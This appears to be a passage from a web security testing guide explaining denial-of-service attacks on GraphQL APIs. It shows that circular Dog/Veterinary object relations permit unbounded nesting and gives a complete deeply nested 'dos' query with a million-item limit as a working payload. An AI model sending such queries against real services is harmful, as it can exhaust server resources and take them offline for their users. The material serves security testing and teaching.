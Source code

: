 ### Denial of Service Queries

GraphQL exposes a very simple interface, to allow developers use nested queries and nested objects. This ability can also be used in a malicious way, by calling a deep nested query similar to a recursive function, causing a denial of service by using too much CPU, memory or other compute resources.

Looking back at _Figure 12.1-1_, you can see that there is a "circle" where a Dog objects contain a Veterinary object, and so, there could be an endless amount of nested objects.

This allows for a deep query which will overload the application:

```graphql
query dos {
  allDogs(onlyFree: false, limit: 1000000) {
    id
    name
    veterinary {
      id
      name
      dogs {
        id
        name
        veterinary {
          id
          name
          dogs {
            id
            name
            veterinary {
              id
              name
              dogs {
                id
                name
                veterinary {
                  id
                  name
                  dogs {
                    id
                    name
                    veterinary {
                      id
                      name
                      dogs {
                        id
                        name
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
